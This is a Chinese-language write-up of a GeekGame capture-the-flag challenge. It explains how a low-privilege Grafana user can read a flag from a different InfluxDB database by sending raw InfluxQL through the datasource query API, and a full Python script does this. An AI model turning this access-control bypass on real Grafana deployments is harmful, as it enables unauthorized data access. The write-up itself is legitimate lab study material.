 （* 表示在第二阶段解出）

#### 解题过程

这题其实我在第一阶段就问 AI 找到了 `datasource` 相关的接口，但一直只会用 Flux 来查询，没找到用 InfluxQL 查出 flag 的方法，而 geekgame 用户又没有更改 datasource 的权限。二阶段看到 Data sources 页面有一个提示：

> Database Access
>
> Setting the database for this datasource does not deny access to other databases. The InfluxDB query syntax allows switching the database in the query. For example:`SHOW MEASUREMENTS ON _internal` or`SELECT * FROM "_internal".."database" LIMIT 10`
>
> To support data isolation and security, make sure appropriate permissions are configured in InfluxDB.

于是才知道咋做。完整代码如下：

```python
import requests
import json
session = requests.Session()

session.headers.update({
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36',
})

base_url = "http://127.0.0.1:3000"

response = session.post(base_url + "/login", json={'user':'geekgame', 'password':'geekgame'})
assert(response.status_code == 200)

response = session.get(base_url + "/api/datasources/1")
result = json.loads(response.text)
print(result)

def query_data(query):
    data = {
        'queries': [
            {
                'datasource': {
                    'type': result['type'],
                    'uid': result['uid']
                },
                'query': query,
                'rawQuery': True,
                'refId': 'A'
            }
        ]
    }
    response = session.post(base_url + "/api/ds/query", json=data)
    return json.loads(response.text)

databases = query_data('SHOW DATABASES')
db_name = databases['results']['A']['frames'][0]['data']['values'][0][3]
print(db_name)
flag = query_data(f'SELECT * FROM "{db_name}".."flag1"')
print(flag)
```

